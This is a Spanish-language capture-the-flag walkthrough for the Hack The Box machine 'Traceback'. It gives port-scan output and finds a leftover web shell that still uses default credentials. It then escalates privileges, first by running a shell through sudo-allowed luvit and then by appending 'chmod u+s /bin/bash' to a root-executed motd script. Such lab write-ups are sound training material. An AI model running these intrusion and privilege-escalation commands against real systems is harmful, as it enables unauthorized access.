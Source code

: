# Traceback ![Avatar](https://www.hackthebox.eu/storage/avatars/c1a1199f831c50fdb1895737b009278b_thumb.png)

## Initial Scan
```
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Help us
```
## Enum
### HTTP
Han hecho un deface de la pagina, y mirando en el source encontramos lo siguiente
```
		<!--Some of the best web shells that you might need ;)-->
```
Si buscamos esa frase encontraremos un repo con la misma
```
https://github.com/TheBinitGhimire/Web-Shells
```
Probemos con los nombres de archivo de las shells, finalmente en smevk.php encontramos un menú de login, las creds de esta shell son las siguientes
```
admin:admin
```
Podemos añadir una clave nueva a authorized_keys en el siguiente directorio
```
/home/webadmin/.ssh/
``` 

## Privesc
Como webadmin podemos ejecutar luvit en el servidor
```
User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit
```
Ejecutamos lo siguiente
```
sudo -u sysadmin  /home/sysadmin/luvit -e 'os.execute("/bin/bash")'
```
Y ya tenemos shell como sysadmin

Usando ps aux vemos lo siguiente
```
root       2054  0.0  0.0   4628   808 ?        Ss   08:46   0:00 /bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/
```
La segunda carpeta es curiosamente nuestra , y resulta que el SSH se ejecuta como root, es decir 00-header se ejecuta como root y podemos escribir en el, buenisima combinacion
```
echo 'chmod u+s /bin/bash' >> 00-header 
```
Tras esto corremos a logearnos (tenemos como mucho 30seg antes de repetir el comando)

Y tras esto tenemos un bonito SUID en bash como root
```
/bin/bash -p
```
Y ya tenemos shell como root
